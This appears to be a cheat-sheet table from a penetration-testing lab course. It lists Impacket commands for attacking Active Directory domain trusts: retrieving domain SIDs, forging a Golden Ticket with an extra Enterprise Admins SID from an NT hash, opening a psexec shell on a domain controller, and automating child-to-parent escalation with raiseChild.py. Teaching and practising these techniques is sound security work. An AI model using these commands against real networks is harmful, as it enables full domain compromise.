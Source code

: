 | `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 \| grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 \| grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a `Golden Ticket` from a Linux-based host. |
| `export KRB5CCNAME=hacker.ccache`                            | Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host. |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |

